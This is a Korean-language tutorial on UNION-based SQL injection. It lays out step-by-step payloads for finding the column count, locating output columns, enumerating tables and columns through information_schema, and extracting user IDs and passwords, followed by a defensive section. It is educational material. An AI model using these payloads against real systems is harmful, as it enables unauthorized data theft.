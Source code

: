 
## 유니온 기반 SQL 인젝션 (UNION-based SQL Injection)

`UNION-based SQL Injection`은 **SQL의 `UNION` 연산자를 악용하여 원래 쿼리 결과 뒤에 공격자가 만든 쿼리 결과를 덧붙이는 방식**의 공격이다. 결과가 HTTP 응답에 출력될 때, 공격자가 원하는 데이터베이스 내부 정보를 직접 확인할 수 있어 강력한 정보 수집 도구로 쓰인다.

---

## 특징

- SQL의 `UNION` 또는 `UNION ALL` 연산자 사용
- 쿼리 결과가 직접 HTML/응답에 노출되어야 유효
- **에러 기반보다 더 많은 데이터**를 한 번에 추출 가능
- 응답 차이가 명확해 **Blind 방식보다 빠름**

---

## 공격 조건

`UNION` 연산자는 다음 조건이 만족되어야 정상 작동한다:

1. **컬럼 수 일치**: 원래 쿼리와 공격자가 삽입한 쿼리의 SELECT 컬럼 수가 같아야 함  
2. **컬럼 타입 호환**: 각 컬럼의 데이터 타입이 원래 쿼리와 일치하거나 호환되어야 함

---

## 공격 절차

1. **취약점 존재 여부 확인**
   ```sql
   ' OR 1=1 --
   ' AND 1=2 --
   ```
   - 응답 차이가 있을 경우 인젝션 가능성 있음

2. **컬럼 개수 파악**
   ```sql
   ' ORDER BY 1 --
   ' ORDER BY 2 --
   ...
   ' ORDER BY N --
   ```
   - 오류 발생 직전 숫자가 컬럼 수  
   또는
   ```sql
   ' UNION SELECT NULL --
   ' UNION SELECT NULL, NULL --
   ...
   ```

3. **출력 컬럼 탐색**
   ```sql
   ' UNION SELECT 1,2,3 --
   ```
   - 숫자 대신 `'A'`, `'B'` 등을 넣어 문자열 출력 가능 컬럼 확인

4. **데이터베이스 구조 및 정보 추출**
   ```sql
   ' UNION SELECT database(), user(), version() --
   ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --
   ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
   ' UNION SELECT id, password FROM users --
   ```

---

## DBMS 별 주요 기법

| DBMS       | 대표 함수 / 기법 예시 |
|------------|------------------------|
| **MySQL**  | `UNION SELECT`, `information_schema`, `group_concat()` 등 |
| **MSSQL**  | `UNION SELECT`, `sysobjects`, `syscolumns` 등 |
| **Oracle** | `UNION SELECT`, `all_tables`, `all_tab_columns`, `dual` 테이블 |
| **PostgreSQL** | `UNION SELECT`, `pg_catalog.pg_tables`, `pg_user`, `version()` 등 |

---

## MySQL 예시

### 1. 컬럼 수 파악
```sql
' ORDER BY 3 --
```

### 2. 출력 위치 확인
```sql
' UNION SELECT 1,2,3 --
```

### 3. DB 및 사용자 정보
```sql
' UNION SELECT database(), user(), version() --
```

### 4. 테이블 및 컬럼 탐색
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

### 5. 실제 데이터 추출
```sql
' UNION SELECT id, password FROM users --
```

---

## 페이로드 예시

| 목적 | 페이로드 예시 |
|------|----------------|
| DB 이름, 사용자 추출 | `' UNION SELECT database(), user(), version() --` |
| 테이블 목록 확인 | `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --` |
| 컬럼 목록 확인 | `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --` |
| 사용자 데이터 추출 | `' UNION SELECT id, password FROM users --` |

---

## 대응 방안

- **입력값 필터링**: `'`, `--`, `union`, `select`, `information_schema` 등 SQL 관련 키워드 필터링  
- **Prepared Statement 사용**: SQL 명령어와 데이터를 명확히 분리
- **출력 제한**: 사용자 입력이 포함된 SQL 결과를 직접 출력하지 않도록 설계
- **WAF 도입**: SQL Injection 시도 탐지 및 차단
- **정기적 점검**: 자동화 도구를 통한 정기 스캔 및 코드 리뷰

---

## 정리

> UNION 기반 SQL Injection은 **쿼리 결과에 공격자의 쿼리 결과를 합쳐 출력하는 방식**으로, 시스템이 응답에 SQL 결과를 포함하는 구조일 때 강력한 정보 추출 수단이다.

> 빠른 정보 노출이 가능하지만, 쿼리 구조를 정확히 파악하고 컬럼 수와 타입을 맞춰야 성공 가능성이 높아진다.

> 대응을 위해선 **출력 제한**, **쿼리 구조 보호**, **정형 입력만 허용하는 설계**가 필수적이다.
